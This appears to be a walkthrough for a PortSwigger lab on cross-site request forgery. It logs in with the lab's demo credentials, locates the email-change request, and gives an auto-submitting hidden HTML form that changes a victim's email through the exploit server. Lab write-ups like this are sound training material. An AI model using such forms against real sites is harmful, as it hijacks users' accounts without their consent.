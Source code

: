 # Cross Site Request Forgery (CSRF)

## Lab 1: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

Login with the credentials `wiener:peter` and update the email by giving new email in email box.

Find the request in the `HTTP history` of proxy.

Click `Go to exploit server` in the lab window.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/63f4ed20-c2f3-49bc-9b7d-196de1dc4761)

In body section, give following HTML code:

      <form method="POST" action="https://0a03006704daa24e806f67c500b50039.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="wiener%40web-security-academy.net">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    
